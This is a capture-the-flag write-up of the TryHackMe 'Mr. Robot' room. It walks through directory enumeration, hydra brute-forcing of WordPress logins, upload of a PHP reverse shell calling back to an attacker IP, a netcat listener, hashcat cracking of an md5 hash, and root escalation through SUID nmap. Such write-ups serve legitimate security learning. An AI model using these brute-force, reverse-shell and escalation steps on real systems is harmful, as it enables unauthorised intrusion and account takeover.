 # Mr. Robot CTF, TryHackMe

## 2024-01-12, Joakim Oscarsson

### Solution

### gobuster with dict file
/images               (Status: 301) [Size: 232] [--> http://10.10.5.6/images/]
/css                  (Status: 301) [Size: 229] [--> http://10.10.5.6/css/]
/image                (Status: 301) [Size: 0] [--> http://10.10.5.6/image/]
/license              (Status: 200) [Size: 309]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.5.6/feed/]
/video                (Status: 301) [Size: 231] [--> http://10.10.5.6/video/]
/audio                (Status: 301) [Size: 231] [--> http://10.10.5.6/audio/]
/admin                (Status: 301) [Size: 231] [--> http://10.10.5.6/admin/]
/blog                 (Status: 301) [Size: 230] [--> http://10.10.5.6/blog/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.5.6/Image/]
/intro                (Status: 200) [Size: 516314]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.5.6/feed/]
/login                (Status: 302) [Size: 0] [--> http://10.10.5.6/wp-login.php]
/readme               (Status: 200) [Size: 64]
/Year201120102009200820072006200520042003200220012000199919981997199619951994199319921991199019891988198719861985198419831982198119801979197819771976197519741973197219711970196919681967196619651964196319621961196019591958195719561955195419531952195119501949194819471946194519441943194219411940193919381937193619351934193319321931193019291928192719261925192419231922192119201919191819171916191519141913191219111910190919081907190619051904190319021901

### hydra username and password cracking

hydra -L ./fsocity.dic -p admin 10.10.5.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid user"

Gave username Elliot

Now we want the password as well, add the last part from fsocity.dic to the shortened version

run hydra again with

hydra -l elliot -P ./fsocity.dic 10.10.5.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"

Success, we got password ER28-0652.

### wordpress

Inside wordpres we found another user: mich05654, lets try to hack her password.

hydra -l mich05654 -P ./fsocity.dic 10.10.184.242 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"


### Wordpress reverse shell

Wordpress usually have a bunch of vulnerabilities. Lets browse through to plugins first...

We activate all the plugins there is and then we test wpscan to see if there are any vulnerabilities.

How to gain reverse shell with image upload:
https://infosecwriteups.com/bypassed-and-uploaded-a-sweet-reverse-shell-d15e1bbf5836

We renamed the shell as shell.png.php and then the image upload worked.

So we uploaded a php reverse shell, calling to IP 10.8.184.253. Then we started netcat with the command: 
nc -lvp 4444 and got a shell running.

After getting the shell, we ran python -c 'import pty; pty.spawn("/bin/bash)'  to get some more persistance. 

In /home/robot there was a password saved as an md5 hash, the hash was cracked using hashcat.

### hashcat

To crack the md5 password hash we used the command:
hashcat -m 0 -a 0 pass_hash.hash fsocity.txt (m is type of hash and 0 mean md5, a is type of attack 0 is dictionary attack)

### get 2nd key

After the password was cracked we signed in as robot by issuing the su command, entered  the password and then cat out the key.

### get 3rd key

Now we need to escalate our privileges to root. By the hint we see that wee should use nmap in some way. By running find / -perm /4000 2>/dev/null we see that nmap has the SUID bit set. Then we look into gtfobins and find that the command nmap --interactive can be used to elevete out privileges to root. After that we cat our third key from /root.

### Misc about Wordpress vulnerabilities

Reverse shell as soon as admin
https://www.hackingarticles.in/wordpress-reverse-shell/

Link to different ways of getting reverse shell on a wordpress website.
https://www.hackercoolmagazine.com/wordpress-reverse-shelling-multiple-methods/





